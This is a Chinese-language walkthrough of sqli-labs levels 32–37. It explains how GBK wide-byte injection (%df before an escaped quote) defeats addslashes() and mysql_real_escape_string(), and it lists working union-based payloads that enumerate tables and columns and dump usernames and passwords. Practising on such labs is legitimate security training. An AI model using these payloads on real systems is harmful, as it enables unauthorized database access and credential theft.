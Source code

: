 # sqli-labs靶场(5)宽字节注入


sqli-labs靶场精简记录32-37

<!--more-->

### Less-32 Bypass addslashes()

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    
    return $string;
}
```

使用preg_replace函数将 斜杠，单引号和双引号过滤

**宽字节注入原理**

MySQL 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如 `%aa%5c` 就是一个 汉字。

使用`%df`去除`/`

`urlencode(\') = %5c%27`，我们在 `%5c%27` 前面添加 `%df`，形 成 `%df%5c%27`，MySQL 在 GBK 编码方式的时候会将两个字节当做一个汉字，这个时候就把 `%df%5c` 当做是一个汉字`運`，`%27` 则作为一个单独的符号在外面，此时`'`就逃逸出来了。



bypass

 使用`%df`宽字节注入来消除反斜杠

payload

```
爆库:
-1%df%27 union select 1,2,database()--+
爆表：
-1%df%27 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
或者将security转换为16进制:
-1%df%27 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479--+
爆字段:
user转换为16进制：0x7573657273
-1%df%27 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 and table_schema=0x7365637572697479--+
爆数据:
-1%df%27 union select 1,group_concat(username,0x7e,password),3 from security.users--+
或者
-1%df%27 union select 1,group_concat(username,0x7e,password),3 from users--+
```

### Less-33 Bypass addslashes()

bypass和payload同上题

### Less-34 Bypass Add SLASHES

基于错误 POST 单引号字符型 addslashes () 宽字节注入

bypass和payload同上题

### Less-35 why care for addslashes()

基于错误 GET 数字型 addslashes () 宽字节注入

数字型，注入语句出现的引号里面的数据需要转换为十六进制

payload

```
爆库:
-1 union select 1,2,database()--+
爆表:
-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479 --+
爆字段:
-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 and table_schema=0x7365637572697479--+
爆数据:
```

### Less-36 Bypass MySQL Real Escape String

```
function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}
```

```
mysql_real_escape_string()函数转义的特殊字符 \x00 \n \r \ ' " \x1a
```

GBK编码，宽字节注入

payload

```
爆位置:
0%bb%5c%5c%27 union select 1,2,3-- #
爆数据库:
-1%E6' union select 1,2,database()--+
爆表:
-1%E6' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479 --+
爆列名:
-1%E6' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273--+
爆值:
-1%E6' union select 1,group_concat(username,0x7e,password),3 from security.users --+
```

### Less-37- MySQL_real_escape_string

post请求，payload同上题
